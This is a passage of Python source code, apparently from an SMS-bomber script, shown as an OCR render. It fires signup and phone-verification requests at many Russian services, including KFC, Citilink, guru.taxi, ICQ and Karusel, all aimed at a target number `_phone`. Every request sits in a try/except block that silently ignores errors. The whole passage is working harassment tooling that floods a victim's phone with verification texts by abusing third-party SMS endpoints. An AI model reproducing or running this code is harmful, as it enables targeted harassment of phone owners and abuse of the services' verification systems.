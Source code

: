             s=s

        try:

            requests.post('https://app.karusel.ru/api/v1/phone/', data={'phone': _phone})

        except:

            s=s

        try:

            requests.post('https://app-api.kfc.ru/api/v1/common/auth/send-validation-sms', json={'phone': '+' + _phone})

        except:

            s=s

        try:

            requests.post("https://api.carsmile.com/",json={"operationName": "enterPhone", "variables": {"phone": _phone},"query": "mutation enterPhone($phone: String!) {\n  enterPhone(phone: $phone)\n}\n"})

        except:

            s=s

        try:

            requests.post('https://www.citilink.ru/registration/confirm/phone/+' + _phone + '/')

        except:

            s=s

        try:

            requests.post("https://api.delitime.ru/api/v2/signup",data={"SignupForm[username]": _phone, "SignupForm[device_type]": 3})

        except:

            s=s

        try:

            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})

        except:

            s=s

        try:

            requests.post("https://guru.taxi/api/v1/driver/session/verify",json={"phone": {"code": 1, "number": _phone}})

        except:

            s=s

        try:

            requests.post('https://www.icq.com/smsreg/requestPhoneValidation.php',data={'msisdn': _phone, "locale": 'en', 'countryCode': 'ru','version': '1', "k": "ic1rtwz1s1Hj1O0r", "r": "46763"})
